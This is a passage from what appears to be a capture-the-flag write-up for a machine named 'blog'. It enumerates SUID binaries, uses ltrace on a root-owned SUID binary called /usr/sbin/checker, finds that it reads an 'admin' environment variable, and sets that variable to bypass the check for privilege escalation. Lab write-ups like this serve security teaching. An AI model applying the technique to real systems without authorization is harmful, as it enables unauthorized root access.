 ```bash
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
```

We have some common files, BUT there is an interesting one... `/usr/sbin/checker`.  let’s check it out

```bash
www-data@blog:/$ ls -la /usr/sbin/checker
-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

So it is a root owned binary, with SUID flag on. What happens when we run it?

```bash
www-data@blog:/$ /usr/sbin/checker
Not an Admin
```

To reverse-engineer this we will use a command called **ltrace.**

```bash
www-data@blog:/$ ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

so what ‘/usr/bin/checker’  is doing is calling a getenv() on "admin” variable and returning its value. so if we set this environment variable, what happens?

```bash
www-data@blog:/$ export admin=hello!
```
